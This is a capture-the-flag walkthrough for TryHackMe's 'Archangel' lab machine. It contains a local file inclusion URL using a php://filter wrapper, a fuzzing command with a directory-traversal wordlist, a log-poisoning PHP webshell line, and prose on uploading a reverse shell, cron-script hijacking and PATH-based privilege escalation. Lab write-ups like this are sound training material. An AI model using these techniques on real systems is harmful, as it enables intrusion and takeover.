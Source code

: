 In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 

![Archangel](archangel.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:
![Archangel Index](aa-index-html.png)

Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.

![Archangel New Domain](aa-new-domain.png)

We can run dirsearch on this new website `rsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/we/wordlists/dirb/big.txt`:
![Archangel Dirsearch](aa-new-domain-dirsearch.png)

We then check "robots.txt" and find another page "test.php" also dirsearch found that page:
![Archangel Test PHP](aa-new-domain-test-php.png)

After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:
![Archangel Test PHP exe](aa-test-php.png)
![Archangel Click](aa-click-button.png)

I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
![Archangel PHP Filter](aa-php-filter.png)

I then decode the encoded string and find the content of the test php file:
![Archangel Decode](aa-decode-test-php.png)

We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:
![Archangel ffuf](aa-ffuf-LFI.png)

I try the first payload in BurpSuite to display the output:
![Archangel Passwd](aa-etc-passwd.png)

We can inspect "/var/log/apache2/access.log" file:
![Archangel Apache2](aa-apache2-log.png)

### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```
![Archangel Poison](aa-posioning.png)

After that we are able to run "ls -la" command:
![Archangel ls](aa-posioning-ls.png)
![Archangel nc](aa-posioning-nc.png)

I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:
![Archangel Transfer PHP Shell](aa-transfer-php-shell.png)
![Archangel Wget](aa-wget.png)
![Archangel PHP Reverse Shell](aa-php-revshell.png)
![Archangel Initial Foothold](aa-initial-foothold.png)

#### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:
![Archangel Crontab](aa-crontab.png)

Since we have rights to edit the file, we can run a python revshell:
![Archangel SH](aa-helloworld-sh.png)
![Archangel Lateral Movement](aa-lateral-movement.png)

We now have a shell as archangel:

![Archangel User](aa-archangel-user.png)

In the archangle's home folder there is an exe called backup so let's create a file and made it executable:
![Archangel CP](aa-create-cp.png)

We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:
![Archangel Root](aa-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
